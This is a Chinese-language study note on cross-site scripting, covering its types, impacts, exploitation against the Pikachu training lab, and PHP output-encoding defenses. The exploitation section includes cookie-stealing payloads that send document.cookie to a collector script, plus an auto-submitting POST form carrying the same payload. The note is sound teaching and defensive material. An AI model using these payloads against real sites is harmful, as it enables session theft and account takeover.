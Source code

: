 - [XSS攻击如何产生？](#xss攻击如何产生)
- [主要类型以及原理？](#主要类型以及原理)
- [XSS危害](#xss危害)
- [利用XSS进行攻击活动](#利用xss进行攻击活动)
- [如何防护](#如何防护)


## XSS攻击如何产生？

黑客在你的浏览器中插入一段恶意 JavaScript 脚本，窃取你的隐私信息、冒充你的身份进行操作。这就是 XSS 攻击(Cross-Site Scripting，跨站脚本攻击)

因为浏览器无法区分脚本是被恶意注入的还是正常的内容，它都会执行，况且 HTML 非常灵活，可以在任何时候对它进行修改。

XSS漏洞的核心就是，网页执行了构造的恶意脚本。至于如何让网页执行，就是XSS漏洞的挖掘点。网页的内容一般都是由后端服务器发送过来，一般来说后端服务器接收前端请求，执行一些操作，再返回数据到前端进行展示。

返回的数据有两种来源：

第一种：前端发送过来的，后端进行了一些操作，再发回前端（可能增加、减少数据）
--》这种情况就有可能产生**反射型XSS**

第二种：与数据库交互，从数据库中读取数据到前端显示。
--》这种情况就有可能产生**存储型XSS**（前提是已经将恶意payload写入数据库）

因此对于XSS漏洞的防护就可以从两个角度进行：
- 对输入进行过滤
- 对输出进行转义

## 主要类型以及原理？
- 反射型
  - 顾名思义，恶意 JavaScript 脚本属于用户发送给网站请求中的一部分，随后网站又将这部分返回给用户，恶意脚本在页面中被执行。一般发生在前后端一体的应用中，服务端逻辑会改变最终的网页代码。
    eg: ?input=<script>alert(1)</script>
  - <img src="images/image-20210304212336102.png" alt="image-20210304212336102" width="50%;" />

- DOM型
  - 目前更流行前后端分离的项目，反射型 XSS 无用武之地。 但这种攻击不需要经过服务器，我们知道，网页本身的 JavaScript 也是可以改变 HTML 的，黑客正是利用这一点来实现插入恶意脚本。
  - <img src="images/image-20210304212357239.png" alt="image-20210304212357239" width="50%;" />


- 存储型
  - 又叫持久型 XSS，顾名思义，黑客将恶意 JavaScript 脚本长期保存在服务端数据库中，用户一旦访问相关页面数据，恶意脚本就会被执行。常见于搜索、微博、社区贴吧评论等。
  - <img src="images/image-20210304212425402.png" alt="image-20210304212425402" width="50%;" />


## XSS危害

！！因为XSS借助于构造JS脚本实现，所以任何使用JS可以实现的事情都可以通过XSS实现。 
- 通过 document.cookie盗取 cookie中的信息
- 使用 js或 css破坏页面正常的结构与样式
- 流量劫持（通过访问某段具有 window.location.href 定位到其他页面）
- dos攻击：利用合理的客户端请求来占用过多的服务器资源，从而使合法用户无法得到服务器响应。并且通过携带过程的 cookie信息可以使服务端返回400开头的状态码，从而拒绝合理的请求服务。
- 利用 iframe、frame、XMLHttpRequest或上述 Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，并且攻击者还可以利用 iframe，frame进一步的进行 CSRF 攻击。
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力。

## 利用XSS进行攻击活动
攻击payload的制作分两种类型：
- **Get型 ** 
  
  构造恶意链接中带有参数

>eg:`http://**.**.**/pikachu/vul/xss/xss_reflected_get.php?message=test&submit=submit`
>
>message的内容会在页面上显示，所以可以在message参数值中构造js语句执行一些恶意操作
>
>eg:`<script>document.location = 'http://**.**.**/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>`   盗取cookie值


- **Post型 ** 
需要构造一个页面，页面中包含表单，提交表单数据形成post请求

页面中包含一个表单，表单的请求地址是存在XSS漏洞的页面地址。
post提交的内容是恶意内容，value值。
表单请求执行结果返回到xss_reflected_post.php，触发执行value中的内容。

```html
<html> 
  <head> 
    <script>window.onload = function() {  document.getElementById("postsubmit").click();}</script> 
  </head> 
  <body> 
    <form method="post" action="http://10.201.164.32/pikachu/vul/xss/xsspost/xss_reflected_post.php">     
      <input id="xssr_in" type="text" name="message" value="<script>document.location = 'http://10.201.164.32/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;  </script>"/>     
      <input id="postsubmit" type="submit" name="submit" value="submit" /> 
    </form> 
  </body> 
</html>
```



## 如何防护
根据恶意内容在浏览器上显示的位置不同划分：

1. html普通标签位置输出
   
   将内容输出到`<div> <p> `等html中常见的标签中，当作标签的内容显示。
  -->直接使用htmlspecialchars实体编码即可
   eg:
      ```php
      $div=$_GET['div'];
      //解决方法：
      // $div .= htmlspecialchars($_GET['div'],ENT_QUOTES);  
      <div>
        <?php echo $div;?>
      <div>
      ```
   
   

2. 普通标签的普通属性
   
   如输出到input的value属性值
  -->直接使用htmlspecialchars实体编码即可
   ```php
    $msg .= $_GET['msg'];
      //    防范措施:html实体编码
      //    $msg .= htmlspecialchars($_GET['msg'],ENT_QUOTES);
    <form>
      <input name="msg" value="<?php echo $msg;?>">
    </form>
   ```

3. 输出在事件属性中

  输出位置在标签的事件属性中，如onmouseover
  -->
  ```php

    <form>
      <input type="button" value="submit" onmouseover="init('<?php echo $in;?>')">
    </form>
  ```

4. 输出在特殊的属性中

  如a标签的href属性
  --> 按输入的内容的合法格式进行正则匹配，检查是否是url，再进行html实体编码

  a标签中href属性支持javascript:伪代码执行
  
  ```php
  function check_url($url){
    if (preg_match('/\Ahttp:/',$url) || preg_match('/\Ahttps:/',$url) || preg_match('#\A/#',$url)){
        return true;
    }else{
        return false;
    }
  }
  if (isset($_GET['url'])){
    $url .= htmlspecialchars($_GET['url'],ENT_QUOTES);
  }
  
  <a href="<?php echo $url;?>">www.google.com</a>

  ```

5. 输出点在js中

  输出内容在一段js代码中
  -->转义函数:所有的字符串,除字母,数字,.号,-号外的其他全部进行转义为unicode(utf-8是unicode的一种实现),unicode可以在js中可以被正常解析使用,所有的转义操作在后台进行后输出到前台。
  
  注意：js本身不解析html实体字符
  
  ```php
  //转换字符的编码
  function unicode_escape($str){
      $u16 = mb_convert_encoding($str[0],'UTF-16');
      return preg_replace('/[0-9a-f]{4}/','\u$0',bin2hex($u16));
  }
  //将字母和数字还有.-排除后的剩下的字符全部\uXXXX的unicode的形式进行转义
  //搜索一个正则,并使用指定的回调函数进行callback
  function escape_js_string($input){
      return preg_replace_callback('/[^-\.0-9a-zA-Z]+/u','unicode_escape',$input);
  }

  <script type="text/javascript">
    function init() {}
    // 005-输出点在js中,构造闭合，即可，payload:xx';alert(1);//
    var echoxy = '<?php echo $name;?>';
    //    alert(echoxy);
    if (echoxy === '>中国'){
        alert("比较成功,你的编码杠杠的~");

    }
  </script>
  
  ```


总体思路:对用户输入进行过滤,对输出进行编码;

1. 对用户输入进行XSS防御方式有2种:
   
   基于黑名单的过滤和基于白名单的过滤. 而白名单相对来说更安全;
   
   黑名单:只规定哪些数据不能被输入,很可能被绕过;比如对 '  "   <> 等进行过滤
   
   白名单:只定义哪些数据正常才能被提交;

2. 设置http-only参数为true,这样JS就不能读取cookie信息了;(特殊常见可能被绕过)
   
   Cookie使用过程：
   
    Step1：浏览器向服务器发起请求，这时没有Cookie。
   
    Step2：服务器返回时发送Set-Cookie头，向客户端浏览器写入Cookie。
   
    Step3：在该Cookie到期前，浏览器访问该域下的所有页面，都将发送该Cookie。
    HTTPOnly是在Set-Cookie时被标记的。服务器可能会设置多个Cookie（多个key-value对），而HttpOnly可以有选择性地加在任何一个Cookie值上。在某些时候，应用可能需要JavaScript访问某几项Cookie，这种Cookie可以不设置HttpOnly标记；而仅把HttpOnly标记给用于认证的关键Cookie。

3. 使用一些函数进行防御

  * htmlspecialchars()：将输入内容转换成HTML实体
  	* &--》&amp 

  	* “  --》&quot

  	* ’  --》&#039

  	* < --》&lt

  	* \> --》&gt

  * htmlentities()：把特殊字符转换成HTML实体
    * '  "  &
  * strip_tags()：自动去掉字符中的标签
    * eg:<script>alert(document.cookie);</script>--->alert(document.cookie)

   使用这种方式，链接跳转也有可能出现XSS

   即标签的href、src等属性中，包含javascript:等可执行代码

   另外，style的属性中：
   background-image:url("javascript:....")

   expression(js代码)
   这两种也有可能导致xss，但目前已被浏览器修复。
   eg：<a href="javascript:alert(&#x27;XSS;&#x27)"></a>(单引号被html编码)

   当用户点击该链接时仍会弹出xss

   需要检验其内容，禁止以javascript:开头的链接或者其他非法的scheme

4. 不要随意打开一些来历不明的网站或链接